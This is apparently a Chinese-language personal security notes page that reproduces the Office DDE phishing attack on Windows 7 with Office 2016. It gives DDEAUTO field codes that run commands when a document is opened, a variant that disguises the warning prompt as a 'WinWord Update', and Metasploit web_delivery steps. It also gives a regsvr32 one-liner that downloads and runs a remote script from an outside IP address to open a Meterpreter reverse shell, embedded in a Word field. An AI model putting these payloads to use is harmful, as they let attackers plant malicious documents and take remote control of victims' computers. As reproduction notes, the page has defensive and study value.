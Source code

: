 ```yaml
---
date: 2024-05-29
---
```


# DDE

> 环境: Win7 + Office 2016
>
> 可以在 [MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/?ang=2h-cn) 找对应的镜像
>
> - Office 2016: `ed2k://|file|cn_office_professional_plus_2016_x86_x64_dvd_6969182.iso|2588266496|27EEA4FE4BB13CD0ECCDFC24167F9E01|/`
>
> - Win7:
>
>   [原版软件 (itellyou.cn)](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)
>
>   

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议

攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码

---

当用户打开包含DDE字段的文档时，Office应用程序会显示两个警告：

1. **第一个警告**：告知文档包含指向其他文件的链接。
2. **第二个警告**：告知将打开远程命令提示符。

如果用户忽略警告并允许操作，恶意命令将被执行，导致系统被攻击

---

例如: 创建一个文档 `DDE.docx`, 打开后使用 `Ctrl+F9(或者选中"插入"-"文件部件"-"域", 选中第一个 = (Formula) 然后右键切换域代码来编辑代码)` 

---

## 弹计算器

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

以打开计算器为例, 在域代码中输入如下内容

```JavaScript
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

![image-20240606103628125](http://cdn.ayusummer233.top/DailyNotes/202406061623809.png)

保存后重新打开即可触发域代码执行

---

> 在 Office365 和 Office 2013 的 Word 上都没复现出来,都只有如下第一条警告, 然后就没有动静了
>
> ![image-20240517153248330](http://cdn.ayusummer233.top/DailyNotes/202405171532647.png)
>
> ---
>
> 后续在 Win7+Office2016 成功执行了 DDE
>
> ![image-20240606103518902](http://cdn.ayusummer233.top/DailyNotes/202406061623666.png)
>
> ![image-20240606103531060](http://cdn.ayusummer233.top/DailyNotes/202406061623998.png)
>
> ![image-20240606103541298](http://cdn.ayusummer233.top/DailyNotes/202406061623404.png)

也可以伪装一下

> [谨防钓鱼——OFFICE DDE复现_execl dde漏洞 复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)

```js
DDEAUTO C:\\Programs\\Office\\Updates\\WINWORD.exe/../../../../Windows\\System32\\cmd.exe "WinWord Update                                  /k calc.exe"
```

> PS: WinWord Update 和 `/k` 之间多加些空格, 否则效果不是很好:
>
> ![image-20240606181142069](http://cdn.ayusummer233.top/DailyNotes/202406061811150.png)
>
> ![image-20240606181228410](http://cdn.ayusummer233.top/DailyNotes/202406061812566.png)
>
> ![image-20240606181240958](http://cdn.ayusummer233.top/DailyNotes/202406061812069.png)

![image-20240606181847082](http://cdn.ayusummer233.top/DailyNotes/202406061818175.png)

![image-20240606181815913](http://cdn.ayusummer233.top/DailyNotes/202406061818994.png)

![image-20240606181828940](http://cdn.ayusummer233.top/DailyNotes/202406061818028.png)

---

## 反弹Shell

```bash
msf > use exploit/multi/script/web_delivery
msf > set target 3
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost [msf主机要监听的本地ip地址]
msf > set lport [msf主机要监听的本地端口]
msf exploit(multi/script/web_delivery) > exploit -j 
[*] Exploit running as background job 0.
```

- `target 3 -> Regsvr32`

  `regsvr32` 是 Windows 的一个命令行工具, 用于在 Windows 注册表中注册和注销 COM（Component Object Model）对象。这些对象通常是 DLL（动态链接库）或 OCX（ActiveX 控件）文件。注册这些文件允许它们被其他程序调用和使用。

- `windows/meterpreter/reverse_tcp_uuid`: 用于在目标 Windows 系统上建立一个反向连接的 Meterpreter 会话

  与 `windows/meterpreter/reverse_tcp` 类似，但它包含了 UUID（通用唯一标识符）的支持，这有助于在目标系统上运行多个实例时进行区分。这在一些复杂的攻击场景中非常有用，可以更好地管理和跟踪不同的会话。

- `exploit -j`: 启动一个漏洞利用模块并将其作为后台作业（job）运行

  `-j` 表示以作业的方式在后台运行，这意味着漏洞利用模块不会阻塞当前的控制台，允许用户在当前会话中执行其他命令或操作

![image-20240606105827774](http://cdn.ayusummer233.top/DailyNotes/202406061623460.png)

得到上线命令:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

- **/s**：静默模式，执行过程中不显示任何消息框

- **/n**：不用 `DllRegisterServer`，而是使用 `DllInstall` 方法

- **/u**：卸载模式，与 `/i` 参数一起使用时，会调用 `DllInstall` 方法以卸载而不是安装

- **/i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct**：指定传递给 `DllInstall` 方法的参数

  这里是一个远程 URL，指向一个 `.sct` 脚本文件，`regsvr32` 会下载并执行它

  ![image-20240606133303334](http://cdn.ayusummer233.top/DailyNotes/202406061623428.png)

  ![image-20240606133342964](http://cdn.ayusummer233.top/DailyNotes/202406061623821.png)

  具体来说是调 WScript 调 Powershell 执行编码了的命令; 解码后的命令为:

  ![image-20240606143717556](http://cdn.ayusummer233.top/DailyNotes/202406061623227.png)

  最终还是回到下载远程字符串命令并执行, 具体命令为:

  ![image-20240606144027647](http://cdn.ayusummer233.top/DailyNotes/202406061623408.png)

  具体就不往后解了, 还套了好几层, 等后续做个 Powershell 解混淆的专项研究, 收集和编写一些可用工具再看, 人力解混淆太耗时间了

- **scrobj.dll**：指定要使用的 DLL 文件，这里是 `scrobj.dll`, 全称为 "Script Object Model DLL", 是 Windows 脚本宿主（Windows Script Host，简称 WSH）的一部分, 提供了运行和管理脚本的功能

  WSH 支持多种脚本语言，如 VBScript 和 JScript，允许用户编写和执行脚本来自动化任务

---

得到的反弹代码是:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

写成 DDE 就是

```js
DDEAUTO c:\\windows\\system32\\cmd.exe "/k regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll"
```

![image-20240606152651583](http://cdn.ayusummer233.top/DailyNotes/202406061623511.png)

保存后重新打开:

![image-20240606152745928](http://cdn.ayusummer233.top/DailyNotes/202406061623626.png)

![image-20240606152808558](http://cdn.ayusummer233.top/DailyNotes/202406061624209.png)

![image-20240606152851391](http://cdn.ayusummer233.top/DailyNotes/202406061624930.png)

![image-20240606175736169](http://cdn.ayusummer233.top/DailyNotes/202406061758785.png)

---

## 相关链接

- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击_dde攻击-CSDN博客](https://blog.csdn.net/weixin_45575473/article/details/115894657)
- [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
- [谨防钓鱼——OFFICE DDE复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)
- [office-exploits/DDEAUTO at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/DDEAUTO)

---





